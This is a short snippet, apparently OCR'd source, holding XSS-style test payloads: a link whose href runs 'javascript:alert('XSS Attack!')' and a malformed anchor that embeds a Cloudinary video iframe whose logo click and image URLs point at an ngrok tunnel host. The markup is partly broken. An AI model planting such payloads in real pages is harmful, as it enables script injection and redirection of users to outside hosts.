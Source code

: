 # <a href="javascript:alert('XSS Attack!');">Click me</a>
</article><a innerHtml=<iframe
  src="https://player.cloudinary.com/embed/?public_id=samples%2Fcld-sample-video&cloud_name=dl0qcjstw&player[controls]=true&player[logoOnclickUrl]=https%3A%2F%2F81d2-2405-201-5c2b-b043-cf5d-d07b-da69-b547.ngrok-free.app&player[logoImageUrl]=https%3A%2F%2F81d2-2405-201-5c2b-b043-cf5d-d07b-da69-b547.ngrok-free.app&player[fluid]=true"
  width="640"
  height="360"
  allow="autoplay; fullscreen; encrypted-media; picture-in-picture"
  style="height: auto; width: 100%; aspect-ratio: 640 / 360;"
  allowfullscreen
  frameborder="0"
></iframe>>clickme</a>

